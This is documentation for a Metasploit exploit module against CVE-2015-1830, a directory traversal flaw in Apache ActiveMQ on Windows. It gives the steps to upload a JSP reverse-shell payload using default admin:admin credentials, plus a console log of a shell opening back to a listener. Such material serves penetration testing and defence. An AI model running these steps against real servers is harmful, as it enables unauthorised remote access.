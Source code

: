 ## Introduction

A directory traversal vulnerability was discovered in the fileserver upload/download functionality for blob messages in Apache ActiveMQ 5.x before 5.11.2 for Windows. The vulnerability, tracked as CVE-2015-1830, allows remote attackers to create JSP files in arbitrary directories via unspecified vectors.

Because vulnerable servers allow for directory traversal, they will accept HTTP PUT requests for `/fileserver/..\\admin\\` and process these as requests for `/admin/`. For the PUT request to succeed, credentials need to be provided.

This module exploits CVE-2015-1830 by attempting to upload a JSP payload to a target via an HTTP PUT requests for `/fileserver/..\\admin\\` using the default credentials `admin:admin` (or any other credentials provided by the user). It then issues an HTTP GET request to `/admin/<payload>.jsp` on the target in order to trigger the payload and obtain a shell. The module has been successfully tested against ActiveMQ 5.11.1 on a Windows 7 machine.

## Verification Steps

1. Start msfconsole.
2. Do: `use exploit/windows/http/apache_activemq_traversal_upload`.
3. Do: `set RHOSTS [IP]`. This option is used to set the IP address of the remote system running Apache ActiveMQ.
4. Do: `set PAYLOAD [payload]`. This option can be used to set the payload to use against the target. The default payload is `java/jsp_shell_reverse_tcp`.
5. Do: `set LHOST [IP]`. This option is used to set the IP address of the local machine the payload should establish a connection with.
6. Do: `exploit`.

## Options

1.  `PASSWORD`. The default setting is `admin`, which is the default password for the ActiveMQ administrator account.
2.  `PATH`. This option is the traversal path. `/fileserver/..\admin\` by default.
3.  `USERNAME`. The default setting is `admin`, which is the default ActiveMQ administrator account.

## Scenarios

```
msf5 exploit(windows/http/apache_activemq_traversal_upload) > show options

Module options (exploit/windows/http/apache_activemq_traversal_upload):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   admin                  yes       Password to authenticate with
   PATH       /fileserver/..\admin\  yes       Traversal path
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.2            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8161                   yes       The target port (TCP)
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                      yes       The base path to the web application
   USERNAME   admin                  yes       Username to authenticate with
   VHOST                             no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


msf5 exploit(windows/http/apache_activemq_traversal_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[*] Uploading payload...
[*] Payload sent. Attempting to execute the payload.
[*] Payload executed!
[*] Command shell session 1 opened (192.168.1.1:4444 -> 192.168.1.2:49194) at 2020-02-04 10:55:36 +0100

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop\activemq 5.11.1\apache-activemq-5.11.1\bin\win64>
```

## References

1. <https://www.cvedetails.com/cve/CVE-2015-1830/>
2. <https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt>
